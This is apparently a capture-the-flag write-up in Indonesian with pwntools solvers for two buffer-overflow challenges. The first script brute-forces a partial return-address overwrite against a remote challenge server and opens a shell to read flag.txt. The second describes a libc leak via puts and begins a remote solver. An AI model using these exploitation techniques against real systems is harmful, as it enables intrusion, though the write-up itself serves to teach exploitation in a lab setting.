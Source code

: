 ```python
target = 0x61a

while True:
    payload = flat(
        b'a'* 72,
        pop_r12_chain,
        0x00,
        0x00,
        0x00,
        0x00,
        ret,
        ret,
        ret
    )
    target += 0x1000
    if target >= 0xfff61a:
        target = 0x61a
    payload += p64(target)[:3]
    try:
        p = remote('165.227.224.40', 31165)
        p.send(payload)
        p.sendline(b'ls')
        print(p.recvline(timeout=1))
        p.sendline(b'cat flag.txt')
        print(p.recvline(timeout=1))
        p.interactive()
    except EOFError:
        p.close()
        continue
    except BrokenPipeError:
        p.close()
        continue

# solved with brute force 74f61a idk if the aslr machine was on or off
```

note : untuk void setelah lihat orang lain nampaknya solver saya kena aslr itu hoki

# pandoras box - PWN

bug yang sama yaitu bof, namun disini kita bisa melakukan leak alamat libc dengan puts dan kembali lagi untuk input payload kedua, namun perlu diperhatikan bahwa alamat fungsi main (lupa) memanggila fungsi lain yang berfungsi untuk clear terminal sehingga kita tidak akan bisa melihat hasil leak dari puts, untuk menghadapi hal tersebut kita cukup untuk meloncati fungsi tersebut berikut solver saya

```python
#!/usr/bin/env python3

from pwn import *

exe = 'pb'
elf = context.binary = ELF(exe, checksec=False)
libc = ELF('glibc/libc.so.6', checksec=False)
context.log_level = 'debug'

cmd = '''
bp box
'''

if args.REMOTE:
    p = remote('206.189.112.129', 31648)
else:
    p = process()
```